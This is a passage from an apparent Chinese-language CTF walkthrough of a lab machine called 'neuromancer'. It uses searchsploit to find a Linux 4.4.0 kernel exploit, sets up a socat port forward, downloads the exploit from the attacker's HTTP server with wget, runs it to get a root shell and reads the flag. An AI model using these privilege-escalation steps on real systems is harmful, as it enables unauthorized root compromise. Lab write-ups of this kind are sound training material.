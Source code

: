```shell
VERSION_ID="16.04"
HOME_URL="http://www.ubuntu.com/"
SUPPORT_URL="http://help.ubuntu.com/"
BUG_REPORT_URL="http://bugs.launchpad.net/ubuntu/"
VERSION_CODENAME=xenial
UBUNTU_CODENAME=xenial
```

```
searchsploit 4.4.0 ubuntu -m 44298
```

然后在做一个端口转发，将文件上传到机器上

```
socat TCP-LISTEN:800,reuseaddr,fork TCP:192.168.56.138:800 &
```

kali上：python3 -m http.server 800

```shell
ta@neuromancer:/tmp$ wget http://192.168.89.3:800/exploit
wget http://192.168.89.3:800/exploit
--2025-01-20 04:18:53--  http://192.168.89.3:800/exploit
Connecting to 192.168.89.3:800... connected.
HTTP request sent, awaiting response... 200 OK
Length: 14032 (14K) [application/octet-stream]
Saving to: ‘exploit’

exploit             100%[===================>]  13.70K  --.-KB/s    in 0s      

2025-01-20 04:18:53 (299 MB/s) - ‘exploit’ saved [14032/14032]
```

```shell
ta@neuromancer:/tmp$ chmod +x exploit
chmod +x exploit
ta@neuromancer:/tmp$ ./exploit
./exploit
task_struct = ffff88003a7072c0
uidptr = ffff8800355e7484
spawning root shell
root@neuromancer:/tmp# whoami
whoami
root
root@neuromancer:~# cd /root
cd /root
root@neuromancer:~# cat flag.txt
cat flag.txt
be3306f431dae5ebc93eebb291f4914a                  
```

